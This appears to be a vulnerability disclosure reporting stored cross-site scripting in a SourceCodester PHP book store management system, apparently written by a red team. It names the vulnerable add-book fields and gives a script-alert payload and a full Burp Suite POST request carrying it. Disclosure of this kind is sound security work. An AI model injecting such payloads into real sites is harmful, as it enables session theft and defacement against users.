# Stored Cross Site Scripting

The product(s): https://www.sourcecodester.com/php/15748/book-store-management-system-project-using-php-codeigniter-3-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip

Affected component(s): /bsms_ci/index.php/book/add

Proof of Concept: Go to /bsms_ci/index.php/book/add and using function “Add New Book” and insert payload at “Book Title", "Publisher" or "Author”.

[+] Payload: `<script>alert(document.domain)</script>`

Burpsuite Request:

```txt
POST /bsms_ci/index.php/book/add HTTP/1.1
Host: localhost
Content-Length: 1004
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylCtfxCb0KA0B0dj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/book
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: ci_session=mhhvamokocno4687ie4ovjlfi1s4n6om
Connection: close

------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="book_title"

<script>alert(document.domain)</script>
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="year"

2022
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="price"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="category"

1
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="gambar"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="publisher"

Publisher
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="writer"

Author
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="stock"

10
------WebKitFormBoundarylCtfxCb0KA0B0dj6
Content-Disposition: form-data; name="save"

Save
------WebKitFormBoundarylCtfxCb0KA0B0dj6--
```

Image:

![image](images/UI.png)

![image](images/burpsuite_request.png)

![image](images/xss.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
